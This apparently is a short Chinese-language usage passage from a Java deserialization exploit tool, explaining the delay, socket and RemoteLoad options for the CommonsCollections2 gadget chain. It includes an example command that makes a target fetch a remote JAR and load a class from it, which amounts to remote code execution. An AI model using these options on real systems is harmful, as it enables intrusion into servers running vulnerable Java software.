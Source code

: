 ## Delay 延时

```
-e delay
-dt {/s}
```

+ `-dt` 指定延时时间 /s

eg. `-g commonscollections2 -e delay -dt 5`

![image-20240419110957399](attachments/image-20240419110957399.png)

## Socket 发起 socket 请求

```
-e socket
-host {ip:port}
```

+ `-host` 指定需要发起 socket 请求的地址，用来测试是调用链被 ban 了还是限制了执行命令。

eg. `-g commonscollections2 -e socket -host 127.0.0.1:1234`

![image-20240419111952995](attachments/image-20240419111952995.png)

## RemoteLoad 远程加载

```
-e RemoteLoad
-url
-cn
-ctor
```

+ `-url` 指定远程地址
+ `-cn` 指定远程加载的类名

eg. `-g commonscollections2 -e RemoteLoad -url http://127.0.0.1:1234/ClassLoad-1.0.jar -cn org.example.Exec`

![image-20240423103555978](attachments/image-20240423103555978.png)
